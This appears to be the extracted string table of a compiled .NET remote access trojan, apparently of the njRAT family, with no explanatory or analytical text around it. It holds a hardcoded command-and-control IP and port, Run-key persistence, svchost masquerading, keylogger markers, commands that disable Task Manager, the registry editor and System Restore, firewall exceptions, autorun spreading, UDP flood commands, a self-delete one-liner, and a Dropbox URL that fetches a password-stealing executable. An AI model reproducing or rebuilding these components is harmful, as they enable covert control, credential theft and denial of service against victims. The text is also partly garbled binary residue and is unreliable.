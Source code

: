 EndInvoke DelegateAsyncResult Invoke WebServices GetInstance  F a l s e  	T E M P  s e r v e r . e x e  8 9 . 1 7 8 . 2 3 6 . 2 2 5   2 7 0 1 5  A0 8 3 e 4 8 4 f 5 7 4 e 7 6 2 a e d a 0 d b 2 d 6 9 a c c 0 6 f  [S o f t w a r e \ M i c r o s o f t \ W i n d o w s \ C u r r e n t V e r s i o n \ R u n  2 0  S G F j S 2 V k  i m 5 2 3  | ' | ' | E x s a m p l e . e x e  s v c h o s t . e x e  C o n n e c t  v n  
 
  :  i n f  S o f t w a r e \  S y s t e m D r i v e  \  E R R  ,  SS o f t w a r e \ M i c r o s o f t \ I n t e r n e t   E x p l o r e r \ M a i n  S t a r t   P a g e  	n w p r  	s i t e  f u n  
I E h o m e  !s h u t d o w n c o m p u t e r  #s h u t d o w n   - s   - t   0 0 r e s t a r t c o m p u t e r  #s h u t d o w n   - r   - t   0 0 
l o g o f f  #s h u t d o w n   - l   - t   0 0 E r o r r M s g  1  2  3  4  5  6  p e e c h  S A P I . S p v o i c e  s p e a k  	B e p X  p i a n o  
O p e n C D  +s e t   C D A u d i o   d o o r   o p e n  C l o s e C D  /s e t   C D A u d i o   d o o r   c l o s e d  D i s a b l e K M  E n a b l e K M  T u r n O f f M o n i t o r  T u r n O n M o n i t o r  N o r m a l M o u s e  R e v e r s e M o u s e  D i s a b l e C M D  yH K E Y _ C U R R E N T _ U S E R \ S o f t w a r e \ P o l i c i e s \ M i c r o s o f t \ W i n d o w s \ S y s t e m  E n a b l e C M D  0  D i s a b l e R e g i s t r y  Ђ—H K E Y _ C U R R E N T _ U S E R \ S o f t w a r e \ M i c r o s o f t \ W i n d o w s \ C u r r e n t V e r s i o n \ P o l i c i e s \ S y s t e m  )D i s a b l e R e g i s t r y T o o l s  E n a b l e R e g i s t r y  D i s a b l e R e s t o r e  Ђ›H K E Y _ L O C A L _ M A C H I N E \ S O F T W A R E \ M i c r o s o f t \ W i n d o w s   N T \ C u r r e n t V e r s i o n \ S y s t e m R e s t o r e  D i s a b l e S R  E n a b l e R e s t o r e  %D i s a b l e T a s k M a n a g e r  D i s a b l e T a s k M g r  #E n a b l e T a s k M a n a g e r  C u r s o r S h o w  C u r s o r H i d e  s e n d m u s i c p l a y  O p e n S i t e  d o s  u d p  
u d p s t p  p i n g s t o p  1t a s k k i l l   / F   / I M   P I N G . E X E  l l  k l  p a s  	t e m p  / p a s s . e x e  mh t t p s : / / d l . d r o p b o x . c o m / s / p 8 4 a a z 2 8 t 0 h e p u l / P a s s . e x e ? d l = 0  / t e m p . t x t  	p r o f  ~  !  g e t v a l u e  @  r n  M S G  E x e c u t e   E R R O R  b l a  D o w n l o a d   E R R O R  .  E x e c u t e d   A s    E x e c u t e   E R R O R    i n v  p l  A  h  p  o s k  s t a r t  O f f  o f f  r e t  G T  C A P  u n  u p  U p d a t e   E R R O R  	. e x e  U p d a t i n g   T o    . .  U p d a t e   E R R O R    E x  P L G  i n d  H  P  c  E R  _  ? ?  y y - M M - d d ? ? - ? ? - ? ? M i c r o s o f t  W i n d o w s  W i n  ® "!        	  W i n  S P  x 8 6  	  x 6 4  	  x 8 6  Y e s  N o  Gn e t s h   f i r e w a l l   a d d   a l l o w e d p r o g r a m   "  "   "  "   E N A B L E  "  	"   . .  !t a s k k i l l   / F   / I M    a u t o r u n . i n f  [ a u t o r u n ]  o p e n =  s h e l l e x e c u t e =  d i  a c t  x 2  c l e a r    Mn e t s h   f i r e w a l l   d e l e t e   a l l o w e d p r o g r a m   "  S o f t w a r e  3c m d . e x e   / k   p i n g   0   &   d e l   "  "   &   e x i t  	[ k l ]  
 
  y y / M M / d d     
 
 [  ]  [ E N T E R ] 
 
  [ T A P ] 
 
  t a s k m g r  p r o c e s s v i e w e r  p r o c e s s h a c k e r  !p r o c e s s   e x p l o r e r  
b u t t o n  
s t a t i c  d i r e c t u i h w n d  E n d   p r o c e s s   Фlм'Я'DH’™Є0ћ‚ Ч            =A     
     
 U        y  
  ЂЃ    Ђ•    Ђ™    Ђ­  ==       ЂЅ  ЂЕ  ЂЕ  ЂЕ  
 ЂСЂЕ  Ђщ	 Ђэ
 ЃЂЭЂб  = 
 
